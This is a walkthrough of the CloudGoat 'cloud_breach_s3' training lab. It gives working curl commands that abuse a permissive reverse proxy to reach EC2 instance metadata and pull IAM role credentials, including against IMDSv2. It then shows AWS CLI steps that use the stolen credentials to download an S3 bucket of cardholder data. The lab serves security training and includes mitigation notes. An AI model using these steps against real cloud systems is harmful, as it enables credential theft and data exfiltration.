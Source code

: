 # Scenario 2 - Cloud Breach s3

## What is the scenario

The scenario begins with an IP address.

The objective is to exfiltrate sensitive data from an S3 bucket.

More scenario details - https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/README.md

## Setting up the scenario

        python3 cloudgoat.py create cloud_breach_s3

## Walkthrough

### Exploitation Route

![exploitation-route](imgs/scenario2-11.png)

### Step by step instructions

This scenario assumes that as an attacker we have reached an IP address after some reconnaissance. We have also figured out that the service on port 80 of the IP address is acting as a reverse-proxy server.

This is a common real-world scenario where as attackers we run into reverse-proxy or application layer "edge router" such a Nginx or Traefik etc which forward the requests to appropriate service based on the Host header in HTTP requests.

As attackers, we can exploit reverse-proxy server with overly permissive configuration to reach internal applications that we can't reach otherwise. This attack get's even more severe in cloud resources because of "Instance Metadata".

> Instance metadata is data about your instance that you can use to configure or manage the running instance. Instance metadata can be accessed at the IP address 169.254.169.254 which is a link-local address and is valid only from the instance. You can read more about IMDS data retrieval here https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html

Let's verify if we can exploit the reverse-proxy server to reach out to EC2 instance metadata service (IMDS). We are using curl HTTP client to make a HTTP request to retrieve metadata and we are adding a "Host" header whose value points to IP address of IMDS service. If the reverse-proxy server has overly permissive configuration then the request will be forwarded to IMDS service and it will return some metadata related information.

        curl -s http://<ec2-ip-address>/latest/meta-data/ -H 'Host:169.254.169.254'

        curl -s \
        http://54.196.109.217/latest/meta-data/local-ipv4 \
        -H 'Host:169.254.169.254'

![metadata](imgs/scenario2-1.png)

![metadata-localipv4](imgs/scenario2-2.png)

Now it is evident that the reverse-proxy server has overly permissive configuration that we can exploit to access AWS EC2 IMDS.

From an external attacker point of view, one of the most lucrative information stored in IMDS is IAM role credentials. If we can steal IAM role credentials, we can do whatever the IAM role is allowed to do. In real world, it is quite common for an E2 instance to have IAM roles that they use to interact with other services in the AWS account such as S3 Buckets.

Let's go ahead and extract any IAM role credentials that are accessible via IMDS on this EC2 Instance.

        curl -s \
        http://54.196.109.217/latest/meta-data/iam/security-credentials/ \
        -H 'Host:169.254.169.254'

![role-name](imgs/scenario2-3.png)

        curl -s \
        http://54.196.109.217/latest/meta-data/iam/security-credentials/ROLE-NAME \
        -H 'Host:169.254.169.254'

![role-credentials](imgs/scenario2-4.png)

The IAM role credentials we have stolen can be used like any other IAM identity credentials. To enumerate what can be done using the role credentials, we will create a named profile using AWS CLI but notice that the IAM role credentials are short lived and have a session token. The session token has to be manually added to the profile in the file `~/.aws/credentials`

        aws configure --profile stolen-creds

![add-session-token](imgs/scenario2-5.png)

We'll use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify the role permissions. 

        python enumerate-iam.py --access-key ACCESS-ID --secret-key SECRET-KEY --session-token SESSION-TOKEN

![enumerate-permissions](imgs/scenario2-8.png)

Notice that the IAM role has permission to list s3 buckets in the account. Let's use AWS CLI to list the buckets and download any data stored on the s3 buckets.

        aws s3 ls --profile stolen-creds
        aws s3 sync s3://BUCKET-NAME ./cardholder-data --profile stolen-creds

![bucket-list](imgs/scenario2-6.png)

![download-objects](imgs/scenario2-7.png)


## Extra mile

IMDS has been [widely exploited](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90) using web application vulnerabilities such as Server Side Request Forgery (SSRF), Command Injection etc in web applications running on EC2 to gain access to IAM credentials.

AWS released an update to EC2 instance metadata service which is used for querying instance metadata values. This new release, IMDSv2, according to AWS is a defence in depth against open firewalls and SSRF vulnerabilities. IMDSv2 needs a session token for making any request to the service. This token can only be obtained by making a specific request using the HTTP PUT method. You can read more about IMDSv2 at https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650

Although IMDSv2 effectively mitigates most SSRF attacks, it still cannot mitigate security issues like mis-configured reverse-proxy servers such as the one we exploited.

Let's upgrade the vulnerable EC2 instance from IMDSv1 to IMDSv2. We need the latest AWS CLI ( >=1.16.287) that supports IMDSv2. Notice that we are using `cloudgoat` profile which is an Admin user to update EC2 instance from IMDSv1 to IMDSv2.

        pip3 install awscli
        pip3 upgrade awscli

        aws ec2 modify-instance-metadata-options \
        --instance-id <INSTANCE-ID> --profile cloudgoat \
        --http-endpoint enabled --http-token required

Let's exploit IMDS v2 using the mis-configured reverse proxy.

We can generate the token for accessing metadata endpoint with the below HTTP PUT request and store the token in a environment variable `$TOKEN`.

        export TOKEN=`curl -X PUT \
        -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" \
        "http://54.196.109.217/latest/api/token" \
        -H "Host:169.254.169.254"`

![generate-token](imgs/scenario2-10.png)

For further calls, we will use the security token obtained as part of the HTTP request header.

![get-localipv4](imgs/scenario2-9.png)

## Destroy the scenario resources

        python3 cloudgoat.py destroy cloud_breach_s3

## References


- [IAM Roles](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles.html)
- [Instance Metadata and User Data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
- [Retrieving Instance Metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
- [Finding SSRF via HTML Injection inside a PDF file on AWS EC2](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90)
- [Instance Metadata API: A Modern Day Trojan Horse](https://redlock.io/blog/instance-metadata-api-a-modern-day-trojan-horse)
- [Trust No One: The Perils of Trusting User Input](https://www.nginx.com/blog/trust-no-one-perils-of-trusting-user-input/)
- [Getting started with Version 2 of AWS EC2 Instance Metadata service (IMDSv2)](https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650)


